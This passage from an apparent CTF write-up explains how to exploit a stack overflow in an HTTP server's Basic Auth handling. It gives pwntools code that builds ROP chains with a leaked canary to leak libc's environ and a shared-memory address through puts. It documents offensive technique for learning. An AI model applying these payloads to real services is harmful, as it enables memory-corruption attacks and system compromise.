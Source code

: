 

We will also need the `shared` memory address (as explained the later in this writeup) :eyes:.

We can find it in the `main` stack frame. So we need to leak a stack address to compute it's location address. We can do that by leaking the value of the `environ` variable, which is present in the libc.

```python
# Leak environ

login = b'admin:admin\x00'
login += b'A'*252
login += p64(canary)
login += p64(0xdeadbeefcafebabe)
login += p64(pop_rdi)
login += p64(libc_base + libc.sym['environ'])
login += p64(puts_addr)

auth = b'Basic ' + base64.b64encode(login)

req = make_request(headers={
    b'Authorization': auth,
    b'Connection': b'keep-alive',
})

r.send(req)

environ_addr = u64(r.recvn(7).strip().ljust(8, b'\x00'))
ret_addr = environ_addr - 0x100

log.success('environ addr is @ %s' % hex(environ_addr))
```

The shared memory is located at `environ - 0x140`, we can make another leak of that address to get our precious shared memory address:

```py
# Leak shared memory addr

shared_memory = environ_addr - 0x140

login = b'admin:admin\x00'
login += b'A'*252
login += p64(canary)
login += p64(0xdeadbeefcafebabe)
login += p64(pop_rdi)
# Here we add 1 to the shared memory location, 
# as the LSB of the shared memory address is 0x00
# and puts stops at a null byte.
login += p64(shared_memory + 1) 
login += p64(puts_addr)

auth = b'Basic ' + base64.b64encode(login)

req = make_request(headers={
    b'Authorization': auth,
    b'Connection': b'keep-alive',
})

r.send(req)

# We re-introduce the nullbyte
shared_base = u64(r.recvn(6).strip().ljust(8, b'\x00')) << 0x8
log.success('shared_base is @ %s' % hex(shared_base))
```
